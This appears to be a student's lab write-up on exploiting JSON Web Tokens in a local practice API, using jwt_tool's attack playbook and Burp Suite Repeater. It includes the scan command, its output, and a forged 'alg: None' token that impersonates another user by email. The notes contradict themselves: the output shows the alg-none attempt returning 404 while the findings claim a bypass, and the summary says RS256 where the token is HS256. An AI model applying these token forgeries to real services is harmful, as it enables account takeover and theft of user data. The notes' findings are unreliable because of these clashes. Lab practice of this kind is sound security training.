 
---

# 📖 High-Level Summary:

This lab demonstrates the use of **jwt_tool** to analyze and exploit vulnerabilities in JSON Web Tokens (JWTs). The focus is on:

1. **Broken Signature**: The application accepts JWTs without validating their signatures.
2. **Algorithm None Attack**: Changing the algorithm from `RS256` to `None` allows bypassing signature verification.

These vulnerabilities enable attackers to manipulate tokens and impersonate other users by editing token payloads.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**jwt_tool**|A tool for testing and exploiting vulnerabilities in JSON Web Tokens.|Supports pre-defined attack modules with flags like `-M` for modules and `-t` for target URL.|
|**JWT (JSON Web Token)**|A token format containing encoded header, payload, and signature sections.|Used for stateless authentication. Vulnerable if the signature is not validated.|
|**Broken Signature**|A vulnerability where the application does not verify the integrity of a tampered token.|Allows attackers to modify tokens without providing a valid signature.|
|**Algorithm None Attack**|A vulnerability where the application accepts `alg: None` as a valid algorithm in the JWT.|Bypasses signature verification entirely.|
|**Repeater (Burp Suite)**|A Burp Suite tool for sending and modifying HTTP requests to test vulnerabilities.|Used here to send modified JWTs to the target application.|
|**`-t` flag**|Specifies the target URL in **jwt_tool**.|Example: `-t http://localhost/...` specifies the endpoint to analyze.|
|**`-M` flag**|Specifies the module in **jwt_tool**.|Example: `-M at` runs the Attack Playbook module.|

---

# 🎯 Steps and Commands:

### Step 1: Log in to the Dashboard

1. Navigate to:
    
    ```plaintext
    http://localhost:8888/dashboard
    ```
    
2. Observe the `Authorization` header in Burp Suite for the GET request to:
    
    ```plaintext
    /identity/api/v2/user/dashboard
    ```
    
    - **Token Example:**
        
        ```plaintext
        Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWwiOiJHRjDS1zW...randomJWTCharacters
        ```
        

---

### Step 2: Use jwt_tool to Analyze the Token

1. Run the **jwt_tool** command to analyze the token:
    
    ```bash
    jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWwiOiJHRjDS1zW...randomJWTCharacters' -M at
    ```
    
    - **Flags Used**:
        - `-t`: Specifies the target URL (`http://localhost:8888/identity/api/v2/user/dashboard`).
        - `-rh`: Adds the `Authorization` header with the JWT token.
        - `-M at`: Launches the **Attack Playbook** module.

---

### Step 3: Analyze Scanning Module Output

1. **Prescan Checks Output**:
    
    ```plaintext
    jwttool_a9933eb64cf3e12bf8f5d181ae1c126d Prescan: original token Response Code: 200, 179 bytes
    jwttool_2242aff88714ddae9c009dea44435317 Prescan: Broken signature Response Code: 200, 179 bytes
    jwttool_3b804aaab225b15664aed5bc64c51d1e Exploit: "alg":"None" (-X a) Response Code: 404, 58 bytes
    ```
    
    - **Key Findings**:
        - **Broken Signature**: The application accepts tampered tokens, proving that signature validation is not enforced.
        - **Algorithm None Attack**: Changing the algorithm to `None` bypasses signature verification.

---

### Step 4: Exploitation via Burp Suite Repeater

1. Send the **original GET request** to Repeater:
    
    ```plaintext
    /identity/api/v2/user/dashboard
    ```
    
    - Include the **original JWT** in the Authorization header.
    - **Important:** Always send the original request before modifying the token.
2. Modify the JWT in Repeater:
    
    - Use the **JSON Web Token tab** in Repeater to edit the token:
        
        - Change the algorithm in the header to `"alg": "None"`.
        - Replace the user identifier in the payload with another user’s email.
    - **Example Edited JWT**:
        
```json
        {
          "header": {
            "alg": "None",
            "typ": "JWT"
          },
          "payload": {
            "email": "otheruser@example.com",
            "iat": 1675347297
          }
        }
```
        
3. Send the Modified Request:
    
    - Observe the response, which includes the other user’s information.

---

# ✅ Key Takeaways:

1. **Broken Signature**:
    - The server accepts tampered JWTs, allowing attackers to manipulate tokens.
2. **Algorithm None Attack**:
    - Changing the algorithm to `None` bypasses signature verification, exposing user data.
3. **Practical Exploitation**:
    - Use **jwt_tool** to identify vulnerabilities and **Burp Suite Repeater** to exploit them by crafting custom JWTs.
